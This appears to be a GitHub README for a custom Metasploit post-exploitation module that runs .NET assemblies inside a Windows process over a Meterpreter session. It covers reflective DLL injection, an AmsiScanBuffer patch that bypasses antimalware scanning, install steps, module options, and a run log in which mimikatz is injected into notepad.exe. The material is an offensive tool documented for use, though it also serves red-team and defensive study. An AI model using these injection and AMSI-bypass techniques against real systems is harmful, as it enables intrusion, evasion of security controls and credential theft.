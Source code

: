 # Execute assembly via Meterpreter session

This is a custom Metasploit post module to executing a .NET Assembly from Meterpreter session

This project target

Windows 10 64bit<br />
.Net 4.0<br />
Metasploit Framework 5<br />

It spawn a process (or use an existing process providing pid) and use Reflective dll injection to load HostingCLRx64.dll needed to run .Net assembly
The unmanaged injected dll takes care of verifying if the process has already loaded the clr, and loads it if necessary. The version of the CLR to be loaded is determined by executing the parsing of the assembly provided searching for a known signature. Then run the assembly from memory.
Before loading the assembly in the context of the clr, Amsi is bypassed using the [AmsiScanBuffer patching technique](https://rastamouse.me/2018/10/amsiscanbuffer-bypass-part-1/)

You'll find details at [Execute assembly via Meterpreter session](https://b4rtik.github.io/posts/execute-assembly-via-meterpreter-session/) and [Execute assembly via Meterpreter session - Part 2](https://b4rtik.github.io/posts/execute-assembly-via-meterpreter-session-part-2/)

## Install

Create $HOME/.msf4/modules/post/windows/manage<br />
Copy execute-assembly.rb in $HOME/.msf4/modules/post/windows/manage/<br />
Create $HOME-METASPLOIT-DATADIR/execute-assembly<br />
Copy HostingCLRx64.dll in $HOME-METASPLOIT-DATADIR/post/execute-assembly/<br /> 

## Module options and execution

```
Module options (post/windows/manage/execute_assembly):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   AMSIBYPASS    true             yes       Enable Amsi bypass
   ARGUMENTS                      no        Command line arguments
   ASSEMBLY                       yes       Assembly file name
   ASSEMBLYPATH                   no        Assembly directory
   PID           0                no        Pid  to inject
   PROCESS       notepad.exe      no        Process to spawn
   SESSION                        yes       The session to run this module on.
   WAIT          10               no        Time in seconds to wait

Module advanced options (post/windows/manage/execute_assembly):                            

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   KILL       false            yes       Kill the injected process at the end of the task
   VERBOSE    false            no        Enable detailed status messages
   WORKSPACE                   no        Specify the workspace for this module

```

AMSIBYPASS

Enable or Disable Amsi bypass. This parameter is necessary due to the technique used. It is possible that subsequent updates will make the bypass unstable which could result in a crash. By setting the parameter to false the module continues to work.

ARGUMENTS

Command line arguments. The signature of the Main method must match with the parameters that have been set in the module, for example:

If the property ARGUMENTS is set to "antani sblinda destra" the main method should be "static void main (string [] args)"<br />
If the property ARGUMENTS is set to "" the main method should be "static void main ()"

ASSEMBLY 

Assembly file name. This will be searched in ASSEMBLYPATH

ASSEMBLYPATH

Assembly directory where to serach ASSEMBLY

PID

Pid to inject. If different from 0 the module does not create a new process but uses the existing process identified by the PID parameter.

PROCESS

Process to spawn when PID is equal to 0.

SESSION

The session to run this module on. Must be meterpreter session

WAIT

Time in seconds to wait before starting to read the output.

KILL

Kill the injected process at the end of the task

```
msf post(windows/manage/execute-assembly) > exploit 

[*] Launching notepad to host CLR...
[+] Process 4708 launched.
[*] Reflectively injecting the Host DLL into 4708...
[*] Injecting Host into 4708...
[*] Host injected. Copy assembly into 4708...
[*] Assembly copied. Executing...
[*] Start reading output
[+] 
[+]   .#####.   mimikatz 2.1.1 (x64) built on Oct 22 2018 16:32:27
[+]  .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
[+]  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
[+]  ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
[+]  '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
[+]   '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
[+] 
[+] mimikatz(powershell) # coffee
[+] 
[+]     ( (
[+]      ) )
[+]   .______.
[+]   |      |]
[+]   \      /
[+]    `----'
[+] 
[*] End output.
[+] Killing process 4708
[+] Execution finished.
[*] Post module execution completed
msf post(windows/manage/execute-assembly) >
```
